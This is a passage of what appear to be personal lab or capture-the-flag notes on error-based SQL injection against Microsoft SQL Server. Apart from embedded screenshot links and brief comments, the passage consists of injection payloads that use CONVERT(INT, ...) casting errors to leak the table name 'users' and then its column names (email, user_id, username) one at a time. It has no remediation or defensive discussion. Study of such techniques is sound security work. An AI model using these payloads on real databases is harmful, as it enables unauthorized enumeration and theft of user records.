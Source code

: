 ![[6. sql tables.png]]
```shell
#extracting table name
', CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top 1 TABLE_NAME FROM information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58))))--


```

![[7. sql table name.png]]


```shell
# extracting column names
# column 1 in only table
# COLUMN 1: email 

', CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 1 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```



![[8. column 1.png]]


```shell
#column 2 in table 1 users
# column 2 = user_id
', CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 2 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```


![[9. column 2.png]]


```shell
# column 3
# username
', CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 3 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--

NOTE IN ALL SQL HAD TO ADD ADDITIONAL ))
```

![[10. COLUMN 3.png]]


```shell
# column 4
', CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 4 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--

# note: username was the last column.
```
